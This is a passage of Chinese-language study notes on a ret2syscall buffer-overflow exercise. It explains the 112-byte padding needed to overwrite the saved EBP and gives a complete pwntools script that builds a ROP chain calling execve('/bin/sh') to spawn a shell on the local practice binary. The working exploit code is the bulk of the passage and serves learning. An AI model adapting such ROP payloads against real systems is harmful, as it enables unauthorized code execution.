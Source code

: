 + 只要构造出ROP链，问题就迎刃而解

+ 另外应该是 `b'A' * 112` 而不是乘108是因为比如在这里你想覆盖掉 `EBP` 的值

  ![image-20201018182358917](https://raw.githubusercontent.com/smallzhong/picgo-pic-bed/master/image-20201018182358917.png)

  那么只写入 `0xd184 - 0xd188 == 4` 即4个字节的数据是不够的，这只能覆盖掉当前的值， `0xfffd188` 那里的 `EBP` 并没有被覆盖到。所以需要 `0xd184 - 0xd188 + 4` 个字节的数据才能覆盖我们想要覆盖的东西。

  ```python3
  #!usr/python
  
  from pwn import *
  
  io = process("./ret2syscall")
  
  bin_sh = 0x080BE408
  pop_eax_ret = 0x080bb196
  pop_edx_pop_ecx_pop_ebx_ret = 0x0806eb90
  int_80h = 0x08049421
  
  payload = flat([b'A' * 112, pop_eax_ret, 0xb, 
  		pop_edx_pop_ecx_pop_ebx_ret, 0, 0, bin_sh, int_80h])
  
  io.sendline(payload)
  io.interactive()
  ```

  
